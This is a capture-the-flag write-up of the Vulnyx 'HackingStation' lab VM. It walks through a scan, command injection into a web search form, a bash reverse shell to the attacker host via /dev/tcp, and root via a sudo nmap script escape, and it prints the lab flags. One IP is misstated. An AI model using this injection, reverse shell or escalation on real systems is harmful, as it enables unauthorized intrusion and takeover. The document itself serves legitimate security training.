 # 🖥️ Writeup - HackingStation 

**Platform:** Vulnyx  
**Operating System:** Linux  

# INSTALLATION

We download the `zip` containing the `.ova` of the HackingStation machine, extract it, and import it into VirtualBox.

We configure the network interface of the HackingStation machine and run it alongside the attacker machine.

# HOST DISCOVERY

At this point, we still don’t know which `IP` address is assigned to HackingStation, so we discover it as follows:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```
Info:
```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:22:43:7a      1      60  PCS Systemtechnik GmbH      
 10.0.4.23       08:00:27:7f:d5:63      1      60  PCS Systemtechnik GmbH
 ```

 We identify with high confidence that the victim’s IP is `10.0.4.21`.

 # PORT SCANNING

Next, we perform a general scan to check which ports are open, followed by a more exhaustive scan to gather relevant service information.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.23
``` 

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 10.0.4.23
```
Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-18 15:36 CEST
Nmap scan report for 10.0.4.23
Host is up (0.00019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: HackingStation
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:53:58:15 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds
```

We only have port `80` open.

We access the service over `HTTP` and find a page that allows us to search for exploits by entering a keyword.

![alt text](../images/hck.png)

It looks likely that when we submit a word the server runs the command `searchsploit <input>`.

The first thing that occurred to me when I saw this was to use a semicolon to chain and execute other commands such as `whoami`. We try `hola; id`:

![alt text](../images/id.png)

At the very bottom we see the output of the id command.

```
uid=1000(hacker) gid=1000(hacker) groups=1000(hacker)
```

We are executing commands as the user hacker.

We will abuse this vulnerability to inject a command that returns a `reverse shell`. To make manipulation easier we intercept the request with `Burp Suite`.

![alt text](../images/request.png)

Now we inject, instead of the `id` command, the command that spawns the `reverse shell` (the command is as follows):

```bash
bash -c 'bash -i >& /dev/tcp/10.0.4.12/4444 0>&1'
```

Once we have it, we press `Ctrl + U` to apply `URL encoding`, resulting in the encoded payload.

![alt text](../images/request2.png)

Before forwarding the request we set up a `listener` on our attacker machine.

```bash
sudo nc -nlvp 4444
```

Then we forward the request, and we receive the `reverse shell` as user `hacker`.

Info:
```
connect to [10.0.4.12] from (UNKNOWN) [10.0.4.23] 52244
bash: cannot set terminal process group (578): Inappropriate ioctl for device
bash: no job control in this shell
hacker@HackingStation:/var/www/html$ whoami
hacker
hacker@HackingStation:/var/www/html$
```

In `/home/hacker` we find the `user flag`.

```
e34efd51251772a8abc4cc00ee52bb0a
```

# TTY

Before attempting privilege escalation, we upgrade the `TTY` for a more interactive shell:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# PRIVILEGE ESCALATION

Comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for hacker on HackingStation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User hacker may run the following commands on HackingStation:
    (root) NOPASSWD: /usr/bin/nmap
```

We discover that the `nmap` binary is executable with `root` privileges. We can leverage this to escalate privileges as follows:

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

Info:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-09-18 16:17 CEST
NSE: Warning: Loading '/tmp/tmp.1YDzuaWoGU' -- the recommended file extension is '.nse'.
# script /dev/null -qc /bin/bash
root@HackingStation:/var/www/html# whoami
root
root@HackingStation:/var/www/html#
```

We now have `root` level access!

In `/root` we find the `root flag`.

```
f900f7fb7d2c5ea64deca6378ebe5ead
```